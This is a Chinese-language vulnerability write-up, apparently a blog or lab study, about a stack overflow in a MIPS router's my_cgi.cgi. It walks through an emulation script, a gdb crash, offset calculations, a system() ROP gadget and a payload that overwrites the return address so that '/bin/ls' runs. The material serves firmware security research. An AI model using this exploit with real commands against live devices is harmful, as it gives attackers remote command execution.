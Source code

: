 ```c
```

所以这里当`get_input_entries`函数在没有校验content_length字段的长度值的情况下将POST的`storage_path=xxx`格式的数据格式化打到大小477450=(36+1025）*450的缓冲区中造成溢出。下面进行动态调试。

编写运行脚本，传参都在脚本cgi_run.sh中进行

```sh
#sudo ./cgi_run.sh
INPUT=`python -c "print 'storage_path='+'A'*477450+open('test','r').read(100)"`
LEN=$(echo -n "$INPUT" | wc -c)
PORT="1234"
cp $(which qemu-mips-static) ./qemu
echo "$INPUT" | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="maultipart/form-data" -E SCRIPT_NAME="common" -E REQUEST_METHOD="POST" -E REQUEST_URI="/my_cgi.cgi" -g $PORT /usr/bin/my_cgi.cgi 2>/dev/null
echo "run ok"
rm -f ./qemu
```

运行脚本，使用gdb-multiarch进行调试运行，发现在跳转到地址0x61374161时发生崩溃，此时$sp+0x28处被覆盖的内容是0x41633241（后面会用到），使用patternLocOffset.py脚本确定覆盖返回地址的偏移位置22+477450=477472，覆盖$sp+0x28处处的字符串偏移是66+477450=477516

```sh
$ python patternLocOffset.py -s 0x61374161
[*] Create pattern string contains 1024 characters
ok!
[*] Exact match at offset 22
[+] take time: 0.0016 s
$ python patternLocOffset.py -s 0x41633241
[*] Create pattern string contains 1024 characters
ok!
[*] Exact match at offset 66
[+] take time: 0.0017 s
```

### 漏洞利用

由于这里时从输入流中逐个字符读取信息，因此不存在00截断的问题，所以我们可以直接在my_cgi.cgi中找调用`system`的ROP链，找到0x405B1C处的调用`system`的gadget1

```c
.text:00405B1C la      $t9, system
.text:00405B20 li      $s1, 0x440000
.text:00405B24 jalr    $t9 ; system
.text:00405B28 addiu   $a0, $sp, 0x64+var_3C  # command
```

所以我们只需要将上面覆盖地址位置的字符串（即$ra）换成gadget的地址0x405B1C，将$sp+0x28处覆盖成command，就可以执行`system(command)`，从而实现命令执行。根据上面计算的偏移重新构造脚本中的参数

```sh
INPUT=`python -c "print 'storage_path='+'A'*477450+'B'*22+'\x00\x40\x5b\x1c'+'C'*(66-22-4)+'/bin/ls'"`
```

这里发现`\x00`使用echo传参的时候传不进去，需要在gdb中用set手动修改$ra的值
